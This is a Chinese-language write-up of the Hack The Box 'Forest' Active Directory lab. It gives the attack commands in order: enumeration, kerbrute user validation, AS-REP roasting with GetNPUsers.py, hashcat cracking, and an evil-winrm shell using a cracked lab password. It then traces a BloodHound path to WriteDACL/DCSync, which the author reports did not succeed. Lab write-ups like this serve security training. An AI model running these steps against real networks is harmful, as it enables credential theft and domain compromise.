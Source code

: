 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting /滥用 WriteDACL / DCSync / Bloodhound
---
```


# ✔️ Forest

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA forest 10.129.154.107 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 把IP地址和域名写入/etc/hosts文件：

<figure><img src="../../.gitbook/assets/3 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 通过之前的Nmap扫描结果发现并没有Web应用的相关开放端口，所以直接尝试各种匿名登录，SMB可以登录成功但是无收获，RPC不可以无密码登录：

```bash
smbclient -N -L 10.129.154.107
rpcclient 10.129.154.107
```

* 使用enum4linux对目标进行枚举，发现了目标系统上的用户名及其用户信息、密码策略、域组成员信息：

```bash
enum4linux 10.129.154.107
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将这些用户名收集起来，试试哪些是域内有效的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 31个用户名跑出来18个有效，再把这18个用户名汇总成一个users.txt文件：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/10 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用Impacket的脚本GetNPUsers.py尝试获取每个用户的哈希值：

```bash
./GetNPUsers.py 'htb.local/' -usersfile users.txt -format hashcat -outputfile hashes.txt -dc-ip 10.129.154.107
```

<figure><img src="../../.gitbook/assets/13 (10).png" alt=""><figcaption></figcaption></figure>

* 已找到了用户svc-alfresco 帐户的哈希值，将该哈希值保存为hashes.txt文件，然后查找该哈希对应的模式，hashcat暴力破解其明文密码：

```bash
hashcat -m 18200 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/14 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 至此，以获取到一个有效凭证：<mark style="color:red;">**svc-alfresco:s3rvice**</mark>
* 利用这个有效凭证和evil-winrm，尝试get shell：

```bash
evil-winrm -i htb.local -u svc-alfresco -p 's3rvice' 
```

* 成功登录，并找到了第一个flag：

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (7).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 按惯例上传winPEAS进行信息枚举，但是没有什么特别的收获：

```bash
# evil-winrm:
upload /root/Documents/HTB-AD/forest/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/19 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound进行信息收集，放入bloodhound中分析各个用户、组成员等之间的关系：

<figure><img src="../../.gitbook/assets/20 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 当前已控制的账户是svc-alfresco，查看最短到域管的路径发现，当前账户属于Service Accounts的成员，而Service Accounts又属于Privileged IT Accounts的成员，Privileged IT Accounts是Account Operators的成员，最后Account Operators的成员又是属于Exchange Windows Permissions的成员：

<figure><img src="../../.gitbook/assets/24 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 从bloodhound列举出的信息中可知Exchange Windows Permission在当前域中是有WriteDACL权限的，该权限可以允许用户修改对象的访问控制列表，这意味着拥有这个权限的账户可以自己赋予自己/其他账户DCSync同步权限。

{% hint style="info" %}
本例提权过程中，一种方式是赋予当前以控制的账户svc-alfrescoDCSync同步权限，还有一种是创建一个新的用户账户赋予它DCSync同步权限，已确定成功将相关账户加入到了Exchange Windows Permissions组，但是在用secretsdump提取域内用户账户的哈希密码时，两种均失败，暂不清楚原因。
{% endhint %}

*

{% hint style="info" %}
本例机器，在GET SHELL阶段常规的枚举尝试就有收获。提权过程太艰难了，以为是自己方向搞错了，看了网上提示后发现没有错，各种方式都尝试过了，还是一直报错，暂不清楚原因，后续再更新。本例Bloodhound分析过程没有以前的机器简单。

（本例中途重置过IP地址有变化，不影响其过程实现）
{% endhint %}
